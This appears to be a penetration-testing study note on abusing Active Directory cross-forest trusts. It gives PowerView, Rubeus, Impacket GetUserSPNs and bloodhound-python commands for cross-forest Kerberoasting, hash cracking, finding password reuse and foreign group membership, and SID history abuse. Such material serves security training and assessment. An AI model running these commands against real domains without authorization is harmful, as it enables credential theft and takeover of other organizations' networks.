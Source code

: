 # Cross-Forest Trust Abuse

In this section will cover:
- Attacking Domain Trusts - Cross-Forest Trust Abuse - from Windows
- Attacking Domain Trusts - Cross-Forest Trust Abuse - from Linux

## Attacking Domain Trusts - Cross-Forest Trust Abuse - from Windows

### Cross-Forest Kerberoasting

Kerberos attacks such as Kerberoasting and ASREPRoasting can be performed across trusts, depending on the trust direction. In a situation where you are positioned in a domain with either an inbound or bidirectional domain/forest trust, you can likely perform various attacks to gain a foothold. Sometimes you cannot escalate privileges in your current domain, but instead can obtain a Kerberos ticket and crack a hash for an administrative user in another domain that has Domain/Enterprise Admin privileges in both domains.
````powershell
# Enumerating Accounts for Associated SPNs Using Get-DomainUser
> Get-DomainUser -SPN -Domain <domain2> | select SamAccountName

# Enumerating the <user> Account
> Get-DomainUser -Domain <domain2> -Identity <user> |select samaccountname,memberof

# Performing a Kerberoasting Attacking with Rubeus Using /domain Flag
> .\Rubeus.exe kerberoast /domain:<domain2> /user:<user> /nowrap
````

### Admin Password Re-Use & Group Membership

From time to time, we'll run into a situation where there is a bidirectional forest trust managed by admins from the same company. If we can take over Domain A and obtain cleartext passwords or NT hashes for either the built-in Administrator account (or an account that is part of the Enterprise Admins or Domain Admins group in Domain A), and Domain B has a highly privileged account with the same name, then it is worth checking for password reuse across the two forests. I occasionally ran into issues where, for example, Domain A would have a user named adm_bob.smith in the Domain Admins group, and Domain B had a user named bsmith_admin. Sometimes, the user would be using the same password in the two domains, and owning Domain A instantly gave me full admin rights to Domain B.

We may also see users or admins from Domain A as members of a group in Domain B. Only Domain Local Groups allow security principals from outside its forest. We may see a Domain Admin or Enterprise Admin from Domain A as a member of the built-in Administrators group in Domain B in a bidirectional forest trust relationship. If we can take over this admin user in Domain A, we would gain full administrative access to Domain B based on group membership.
````powershell
# Using Get-DomainForeignGroupMember
> Get-DomainForeignGroupMember -Domain <domain2>

> Convert-SidToName <MemberNameSid>

# Accessing DC03 Using Enter-PSSession
> Enter-PSSession -ComputerName <DC_Domain2> -Credential <domain1>\administrator
````

### SID History Abuse - Cross Forest

SID History can also be abused across a forest trust. If a user is migrated from one forest to another and SID Filtering is not enabled, it becomes possible to add a SID from the other forest, and this SID will be added to the user's token when authenticating across the trust. If the SID of an account with administrative privileges in Forest A is added to the SID history attribute of an account in Forest B, assuming they can authenticate across the forest, then this account will have administrative privileges when accessing resources in the partner forest.

## Attacking Domain Trusts - Cross-Forest Trust Abuse - from Linux

### Cross-Forest Kerberoasting
````bash
# Using GetUserSPNs.py
$ GetUserSPNs.py -target-domain <domain2> <domain1>/<user>

# Using the -request Flag
$ GetUserSPNs.py -request -target-domain <domain2> <domain1>/<user>
````
We could then attempt to crack this offline using Hashcat with mode 13100.

### Hunting Foreign Group Membership with Bloodhound-python

Since only Domain Local Groups allow users from outside their forest, it is not uncommon to see a highly privileged user from Domain A as a member of the built-in administrators group in domain B when dealing with a bidirectional forest trust relationship. If we are testing from a Linux host, we can gather this information by using the Python implementation of BloodHound. We can use this tool to collect data from multiple domains, ingest it into the GUI tool and search for these relationships.
````bash
# Adding <domain1> Information to /etc/resolv.conf
domain <domain1>
nameserver <IP_DC_Domain1>

# Running bloodhound-python Against <domain1>
$ bloodhound-python -d <domain1> -dc <host_DC_Domain1> -c All -u <user> -p <password> --zip

# Adding <domain2> Information to /etc/resolv.conf
domain <domain2>
nameserver <IP_DC_Domain2>

# Running bloodhound-python Against <domain2>
$ bloodhound-python -d <domain2> -dc <host_DC_Domain2> -c All -u <user>@<domain1> -p <password> --zip
````
After uploading the second set of data (either each JSON file or as one zip file), we can click on **Users with Foreign Domain Group Membership** under the Analysis tab and select the source domain as `<domain1>`. Here, we will see the built-in Administrator account for the `<domain1>` domain is a member of the built-in Administrators group in the `<domain2>` domain as we saw previously.
